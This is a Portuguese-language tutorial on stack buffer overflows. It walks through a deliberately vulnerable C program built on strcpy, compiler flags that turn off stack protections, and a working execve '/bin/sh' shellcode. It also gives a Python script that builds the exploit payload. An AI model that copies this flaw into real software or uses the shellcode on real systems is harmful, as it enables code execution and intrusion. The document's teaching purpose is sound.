 ```markdown
# Demonstração Prática de Exploração de Buffer Overflow

O **buffer overflow** é uma das vulnerabilidades mais clássicas e exploradas na história da segurança de software. Ele ocorre quando um programa escreve mais dados em um buffer do que o espaço alocado para ele, sobrescrevendo áreas adjacentes da memória. Essa falha pode ser explorada para executar código arbitrário, corromper dados ou causar a interrupção do programa.

Neste tópico, apresentaremos uma demonstração prática de exploração de buffer overflow, utilizando um exemplo simples em C, para ilustrar como a vulnerabilidade pode ser explorada e quais são os impactos dessa exploração.

---

## Exemplo de Código Vulnerável

Considere o seguinte programa em C:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[32];
    strcpy(buffer, input);
    printf("Você digitou: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc != 2) {
        printf("Uso: %s <input>\n", argv[0]);
        return 1;
    }
    vulnerable_function(argv[1]);
    return 0;
}
```

Neste código, a função `vulnerable_function` copia o argumento de entrada para um buffer de 32 bytes sem verificar o tamanho do input. Se o usuário fornecer uma string maior que 32 bytes, ocorrerá um buffer overflow.

---

## Análise da Vulnerabilidade

A função `strcpy` não realiza verificação de limites, permitindo que dados além do tamanho do buffer sejam copiados para a pilha. Isso pode sobrescrever variáveis locais, ponteiros de retorno e até mesmo permitir a execução de código arbitrário.

---

## Demonstração de Exploração

### 1. Compilando o Programa

Para facilitar a exploração, compile o programa sem as proteções modernas:

```bash
gcc -fno-stack-protector -z execstack -o overflow_example overflow_example.c
```

- `-fno-stack-protector`: desativa a proteção de stack canary.
- `-z execstack`: permite execução de código na pilha.

### 2. Descobrindo o Offset

Vamos descobrir quantos bytes são necessários para sobrescrever o endereço de retorno da função. Isso pode ser feito com uma entrada de teste:

```bash
./overflow_example $(python3 -c "print('A'*40)")
```

Se o programa travar ou apresentar comportamento inesperado, sabemos que o overflow está ocorrendo.

### 3. Criando um Payload

O objetivo é sobrescrever o endereço de retorno da função para apontar para um shellcode (código malicioso) inserido no buffer. Um shellcode simples para Linux pode ser usado, por exemplo, para executar `/bin/sh`.

Exemplo de shellcode (em hexadecimal):

```python
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    b"\x53\x89\xe1\xb0\x0b\xcd\x80"
)
```

Agora, construa o payload:

- Preencha o buffer até o endereço de retorno (32 bytes + 4 bytes para o EBP, totalizando 36 bytes).
- Insira o endereço do buffer (onde o shellcode está) como novo endereço de retorno.

Exemplo em Python:

```python
import sys

buffer_size = 32
ebp_size = 4
ret_address = b"\x90\xfa\xff\xbf"  # Exemplo de endereço (ajuste conforme o ambiente)
payload = b"A" * (buffer_size + ebp_size) + ret_address + shellcode

sys.stdout.buffer.write(payload)
```

Execute o programa com o payload:

```bash
./overflow_example "$(python3 exploit.py)"
```

Se bem-sucedido, o shellcode será executado, abrindo um shell.

---

## Impacto da Exploração

A exploração de buffer overflow pode permitir que um atacante:

- **Execute código arbitrário**: Ganhar controle total sobre o sistema afetado.
- **Escale privilégios**: Se o programa vulnerável for executado com privilégios elevados.
- **Corrompa dados**: Modifique variáveis e estruturas de dados internas.
- **Cause negação de serviço**: Interrompa a execução do programa.

---

## Considerações Finais

Apesar de proteções modernas como ASLR, stack canaries e DEP dificultarem a exploração, buffer overflows ainda são relevantes, especialmente em sistemas legados ou mal configurados. A compreensão prática dessa exploração é fundamental para o desenvolvimento de softwares mais seguros e para a implementação de defesas eficazes.

> **Atenção:** Esta demonstração é apenas para fins educacionais e deve ser realizada em ambientes controlados e autorizados.

---
```